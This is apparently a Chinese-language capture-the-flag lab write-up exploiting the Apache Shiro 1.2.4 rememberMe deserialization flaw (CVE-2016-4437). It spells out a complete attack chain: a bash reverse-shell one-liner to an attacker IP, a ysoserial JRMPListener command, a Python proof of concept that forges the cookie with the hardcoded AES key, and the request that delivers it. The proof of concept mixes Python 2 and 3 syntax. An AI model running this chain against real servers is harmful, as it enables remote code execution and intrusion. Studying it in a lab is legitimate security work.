 # Apache Shiro 1.2.4反序列化漏洞（CVE-2016-4437）

## 漏洞描述

Apache Shiro默认使用了CookieRememberMeManager，其处理cookie的流程是：得到rememberMe的cookie值 >  Base64解码–>AES解密–>反序列化。然而AES的密钥是硬编码的，就导致了攻击者可以构造恶意数据造成反序列化的RCE漏洞。

## writeup

访问靶机地址

![](./20200515192039.png)

攻击机监听4437端口

![](./20200515192250.png)

访问 http://www.jackson-t.ca/runtime-exec-payloads.html 将准备执行的命令进行加密

反弹shell指令

```
bash -i >& /dev/tcp/攻击机IP/4437 0>&1
```

![](./20200515192539.png)

运行指令（通过 ysoserial中的JRMP监听模块，监听 6666 端口并执行反弹shell命令，ysoserial自行寻找下载）

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 6666 CommonsCollections4 '加密的反弹shell指令'
```

![](./20200515193053.png)

利用POC伪造cookie内容

python shiro.py 攻击者IP:攻击者监听的java端口

![](./20200515193242.png)

POC
```
import sys
import uuid
import base64
import subprocess
from Crypto.Cipher import AES
def encode_rememberme(command):
    popen = subprocess.Popen(['java', '-jar', 'ysoserial-0.0.6-SNAPSHOT-all.jar', 'JRMPClient', command], stdout=subprocess.PIPE)
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(popen.stdout.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme(sys.argv[1])    
print "rememberMe={0}".format(payload.decode())
```

发送伪造的cookie

```
http 目标登入地址 'Cookie:上一步生产的cookie'
```

![](./20200515193549.png)

反弹shell获取flag

![](./20200515193835.png)